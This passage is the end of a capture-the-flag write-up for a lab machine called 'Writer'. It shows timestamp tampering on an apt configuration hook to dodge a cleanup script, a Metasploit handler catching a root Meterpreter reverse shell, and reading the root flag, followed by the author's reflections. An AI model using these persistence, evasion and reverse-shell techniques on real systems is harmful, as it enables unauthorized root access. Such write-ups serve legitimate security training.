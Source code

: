 That seems simple enough, but we also need to bypass the removal script.  This can be done by changing the modify time to more than a day ago:
```Awk
john@writer:/etc/apt/apt.conf.d$ touch -d "29 hours ago" 02Update
```

And now we wait for a shell:
```Awk
msf6 exploit(multi/handler) >
[*] Sending stage (3012548 bytes) to 10.10.11.101
[*] Meterpreter session 3 opened (10.10.10.10:4646 -> 10.10.11.101:34762 ) at 2021-12-11 09:28:13 -0500
sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  2         meterpreter x64/linux  john @ 10.10.11.101  10.10.10.10:4646 -> 10.10.11.101:34270  (10.10.11.101)
  3         meterpreter x64/linux  root @ 10.10.11.101  10.10.10.10:4646 -> 10.10.11.101:34762  (10.10.11.101)
```

Now we have a shell as root!

From here we can get the root.txt and whatever else we want:
```Awk
msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > shell
Process 378346 created.
Channel 1 created.
cd
cat root.txt
<HASH>
```

## Conclusion

I had a lot of fun getting this box, although the initial foothold was very frustrating for me.  Having read different writeups of this box, there are multiple paths you can take to get a shell, and I probably went down one of the hardest paths, but I recommend watching [IppSec's video here](https://www.youtube.com/watch?v=MkvDid7xO7o) as he highlights all of the different avenues well, and he also goes over the proper way to do the SQL injection.  SQL injection is definitely an area where I need to improve, and this box definitely taught me a lot about it.